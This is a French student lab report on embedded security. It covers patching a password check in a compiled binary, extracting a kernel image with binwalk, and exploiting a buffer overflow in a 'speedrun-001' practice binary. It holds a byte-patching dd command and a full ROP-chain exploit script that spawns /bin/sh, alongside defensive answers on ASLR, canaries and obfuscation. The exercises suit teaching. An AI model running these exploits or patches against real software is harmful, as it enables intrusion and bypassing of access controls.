 # Sécurité embarquée

## Emily

Compilation du code:
```bash
$ gcc program.c -o program
```

La commande `file` renvoie :

```bash
program: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=3bb60bd488a208256800ce0dfa3d40e64bf77217, for GNU/Linux 3.2.0, not stripped

```

Dissassembly :

Afin de voir les instructions du binaire compilé précedemment, on utilise objdump avec les options
-S -l -C -F -t -w
Voici leurs utilités :
* -S : afficher le code source si possible
* -l : nombre de lignes
* -C : demangle (rend lisable par un humain)
* -F : affiche l'offset
* -t : table des symboles
* -w : formatage

Ce qu'on veut accomplir, c'est modifier le programme pour que le test renvoie que le mot de passe correcte peu importe le mot de passe tapé.

![Code assembleur de la fonction is_valid](/home/mathias/Documents/2SU_DevSecEmb/Dissassembly.png)

Ici dans la fonction is_valid on voit qu'a l'offset 11a4 on fait le test de comparaison. Si le test renvoie faux on execute l'offset 11af et on insère la valeur 0 dans le registre eax. Si le test est vrai, on voit à l'offset 11a8 qu'on met 0x01 sur le registre eax.

Il faut donc modifier ce qu'il se passe à l'offset 11b0
11b0 = 4528 donc l'octet à modifier est l'octet 4528.

```bash
$ printf '\x01' | dd of=program bs=1 seek=4528 count=1 conv=notrunc
```
![Succès](/home/mathias/Documents/2SU_DevSecEmb/Réussite.png)

### Questions

**Quelles sont les attaques possible sur une boucle for ?**

En effectuant un patching sur un programme disposant d'une boucle for, on peut agir et modifier la variable de contrôle de la boucle et ainsi provoquer une sortie prématurée de la boucle, ou au contraire, empêcher le programme de sortir de la boucle.

**Quelle défense est-ce je peux utiliser contre le patching ?**

Il est difficile de protéger un programme contre de tels attaque, néanmoins, un certain nombre de mesures peuvent être mises en place pour rendre la tache plus compliquée.
Une option est l'obfuscation du code. En rendant notre binaire désassemblé compliqué à lire et à comprendre, on augmente la complexité pour un attaquant de patcher le binaire.

## Retrouver et modifier Tux à l'aide de Binwalk

On dispose d'une image qui est émulée par qemu et dont on veut trouver un des assets (Tux) et ensuite le modifier. Pour celà nous allons utiliser l'outil binwalk.
Première étape: Retrouver l'image de tux.

```bash
$ binwalk -Me vmlinuz-qemu-arm-2.6.20

```
L'option -e demande à binwalk d'extraire tous les types de fichiers connus. L'option -M permet de faire ça récursivement. Le résultat obtenu est un ensemble de dossier menant à un système de fichiers linux:

"_vmlinuz-qemu-arm-2.6.20.extracted/_31B0.extracted/_E7E0.extracted/cpio-root/"

On retrouve tux dans le dossier
"_vmlinuz-qemu-arm-2.6.20.extracted/_31B0.extracted/_E7E0.extracted/cpio-root/usr/local/share/directfb-examples/tux.png"


## Speedrun Bufferoverflow

On va faire segfault le programme lorsqu'il demande une entrée utilisateur.
Après plusieurs essais, il semblerait que le programme plante quand on entre 1025 caractères.

![segfault](/home/mathias/Documents/2SU_DevSecEmb/seg-fault.png)

Nous allons maintenant créer notre rop chain à l'aide de ropper et écrire notre exploit:

```python

#!/usr/bin/env python
# Generated by ropper ropchain generator #
from struct import pack

p = lambda x : pack('Q', x)

IMAGE_BASE_0 = 0x0000000000400000 # 95fd123f83e8d4235fb2e3463ec369da68685c2479a0cb62baa251165484d22c
rebase_0 = lambda x : p(x + IMAGE_BASE_0)

rop = ''

rop += rebase_0(0x000000000000dafb) # 0x000000000040dafb: pop r13; ret; 
rop += '//bin/sh'
rop += rebase_0(0x0000000000000686) # 0x0000000000400686: pop rdi; ret; 
rop += rebase_0(0x00000000002b90e0)
rop += rebase_0(0x0000000000068759) # 0x0000000000468759: mov qword ptr [rdi], r13; pop rbx; pop rbp; pop r12; pop r13; ret; 
rop += p(0xdeadbeefdeadbeef)
rop += p(0xdeadbeefdeadbeef)
rop += p(0xdeadbeefdeadbeef)
rop += p(0xdeadbeefdeadbeef)
rop += rebase_0(0x000000000000dafb) # 0x000000000040dafb: pop r13; ret; 
rop += p(0x0000000000000000)
rop += rebase_0(0x0000000000000686) # 0x0000000000400686: pop rdi; ret; 
rop += rebase_0(0x00000000002b90e8)
rop += rebase_0(0x0000000000068759) # 0x0000000000468759: mov qword ptr [rdi], r13; pop rbx; pop rbp; pop r12; pop r13; ret; 
rop += p(0xdeadbeefdeadbeef)
rop += p(0xdeadbeefdeadbeef)
rop += p(0xdeadbeefdeadbeef)
rop += p(0xdeadbeefdeadbeef)
rop += rebase_0(0x0000000000000686) # 0x0000000000400686: pop rdi; ret; 
rop += rebase_0(0x00000000002b90e0)
rop += rebase_0(0x00000000000101f3) # 0x00000000004101f3: pop rsi; ret; 
rop += rebase_0(0x00000000002b90e8)
rop += rebase_0(0x000000000004be16) # 0x000000000044be16: pop rdx; ret; 
rop += rebase_0(0x00000000002b90e8)
rop += rebase_0(0x0000000000015664) # 0x0000000000415664: pop rax; ret; 
rop += p(0x000000000000003b)
rop += rebase_0(0x0000000000074e65) # 0x0000000000474e65: syscall; ret; 

buffer = "A"*1024 + "B" * 8
open('rop','w').write(buffer + rop + "\n")
```
Les 8 B servent à écraser le registre rsp et on met notre ropchain juste après.

Maintenant pour exploiter le buffer overflow on lance cette commande
```bash
(cat rop; cat) | ./speedrun-001 
```

Vérifions que cela fonctionne correctement.

![buffer overflow qui fonctionne](/home/mathias/Documents/2SU_DevSecEmb/buffer-overflow.png)

### Questions

**Que peut on faire une fois root?**

Maintenant que nous sommes root sur la machine, plusieurs possibilités s'offre à nous :
 
* Voler des données sensibles (mot de passes, donées personneles, donées confidentielles)
* Mettre en place un accès privilégier et persistent. Il nous est possible d'installer des programmes malveillant afin de conserver notre accès root à la machine dans le futur
* Déployer un ransomware pour extorquer de l'argent
* etc.

**Cette méthode est elle applicable dans le cas d'un use after free?**

Afin de réaliser cette attaque dans le cas d'un use after free, il faudrait réussir à passer notre exploit ou une référence vers notre exploit à un espace mémoire libéré par le programme. 

**Qu'est-ce que je peux faire pour diminuer / contrer les bugs ?**

Il serait judicieux de bien contrôler les entrées des utilisateurs pour tenter de mitiger les attaques. De plus, l'activation des protections systèmes comme l'ASLR et les canarys rendent ce genre d'attaque bien plus difficile à effectuer.

## Toolbox 

### Questions

**Quels sont les critères qui rendent une vulnérabilité critique?**

Plusieurs critères rentrent en compte pour établir la criticité d'une vulnérabilité.
On note notamment la complexité de l'exploitation, les privilèges requis, le vecteur d'attaque (local,physique ou réseau par exemple), l'impact de la vulnérabilité. 

**Selon ces critères, quelle interface devrait être testée en premier? Pourquoi?**

Je dirais que les interfaces les plus sensibles sont les interfaces RJ45 et Wifi. Ces deux interfaces sont celles qui relient l'ordinateur à Internet et sont donc exposées à un nombre de menaces potentielles élevé. Leur compromission permettrait à l'attaquant de totalement controler le flux internet de la victime.
